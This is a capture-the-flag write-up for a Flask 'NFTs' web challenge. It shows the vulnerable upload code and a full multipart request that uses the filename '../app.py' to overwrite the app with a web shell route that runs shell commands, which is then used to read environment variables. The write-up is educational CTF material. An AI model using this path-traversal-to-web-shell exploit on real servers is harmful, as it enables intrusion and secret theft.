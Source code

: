 # WxMCTF Web 3 - NFTs
> Seize the means of minting!

## About the Challenge
We have been given a web source code (You can download the source code [here](dist.zip)) and we can start an instance too. Here is the preview of the website

## How to Solve?
There are 2 functionality on the website, we can upload some file to the website and then we can access the file in `nfts` endpoint. Pretty simple right? If we check the `launch.sh` file
```sh
#!/bin/sh
gunicorn -w 1 -b 0.0.0.0:5000 --reload app:app
python -m http.server 5000
```

The gunicorn will restart if there is a code change in the source code. And because there is no restriction at all on the upload feature

```python
from flask import Flask, request, render_template, redirect, flash, make_response
from flask import send_from_directory
import os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            flash('No selected file')
            return redirect(request.url)
        if file:
            file.save(os.path.join("./nfts/", file.filename))
            return redirect(request.url)

    return render_template('index.html')

@app.route('/nfts')
def browse_nfts():
    nfts = os.listdir("nfts")
    return render_template('nfts.html', nfts=nfts)

@app.route('/nft/<name>')
def send_nft(name):
    return send_from_directory("nfts", name, mimetype="application/octet-stream", as_attachment=True)
```

The idea here is you need to update the source code called `app.py` and add a malicious code. If you can see the HTTP request below, i added an endpoint called `test` to run an OS command

```
POST / HTTP/1.1
Host: 59db0cc.678470.xyz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------263566758113396374204204538370
Content-Length: 1456
Origin: http://59db0cc.678470.xyz
Connection: close
Referer: http://59db0cc.678470.xyz/
Upgrade-Insecure-Requests: 1

-----------------------------263566758113396374204204538370
Content-Disposition: form-data; name="file"; filename="../app.py"
Content-Type: application/octet-stream

from flask import Flask, request, render_template, redirect, flash, make_response
from flask import send_from_directory
import subprocess,os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            flash('No selected file')
            return redirect(request.url)
        if file:
            file.save(os.path.join("./nfts/", file.filename))
            return redirect(request.url)

    return render_template('index.html')

@app.route('/nfts')
def browse_nfts():
    nfts = os.listdir("nfts")
    return render_template('nfts.html', nfts=nfts)

@app.route('/nft/<name>')
def send_nft(name):
    return send_from_directory("nfts", name, mimetype="application/octet-stream", as_attachment=True)

def run_command(command):
    return subprocess.Popen(command, shell=True, stdout=subprocess.PIPE).stdout.read()

@app.route('/test/<command>')
def command_server(command):
    return run_command(command)
-----------------------------263566758113396374204204538370--
```

After sending the request, Im waiting for 1 sec and then I access `http://example/test/env` to get the flag because the flag was located on the environment

```
Because the instance was dead, there is no flag here
```